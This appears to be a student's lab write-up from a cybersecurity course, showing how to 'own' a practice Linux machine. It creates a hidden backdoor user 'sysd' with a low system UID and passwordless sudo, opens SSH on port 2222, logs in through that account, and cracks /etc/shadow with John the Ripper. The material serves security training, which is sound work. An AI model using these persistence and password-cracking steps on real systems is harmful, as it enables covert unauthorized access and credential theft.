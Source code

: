 Week 6: Advanced Bash - Owning the System
Step 1: Shadow People

 1.  Create a secret user named sysd. Make sure this user doesn't have a home folder created:

         root:~\ $ useradd --no-create-home sysd

 2.  Give your secret user a password:
        
         root:~\ $ passwd sysd

 3.  Give your secret user a system UID < 1000:

         root:~\ $ usermod -u 37 sysd

 4.  Give your secret user the same GID:

         root:~\ $ usermod -u 37 -g 37 sysd 

 5.  Give your secret user full sudo access without the need for a password:

         root:~\ $ visudo

   #includedir /etc/sudoers.d

         sysd ALL=(ALL) NOPASSWD:ALL
        
 6.  Test that sudo access works without your password: 
        
         $ su sysd
         $ sudo -k
         $ sudo -v
         $ sudo -l


Step 2: Smooth Sailing
 1.  Edit the sshd_config file:
![](Images/john_shadow.png)


Step 3: Testing Your Configuration Update
 1.  Restart the SSH service:
   
    root:~\ $ systemctl restart sshd

 2.  Exit the root account:
  
    root:~\ $ exit
    sysadmin:~\ $ exit

 3.  SSH to the target machine using your sysd account and port 2222:

    sysadmin@UbuntuDesktop:~$ ssh sysd@192.168.6.105 -p 2222

 4.  Use sudo to switch to the root user:
    
    $ sudo su

Step 4: Crack All the Passwords
 1.  SSH back to the system using your sysd account and port 2222:

    root@scavenger-hunt:/# ssh sysd@192.168.6.105 -p 2222

 2.  Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:
   
    $ sudo john /etc/shadow
    
![](Images/john_shadow.png)



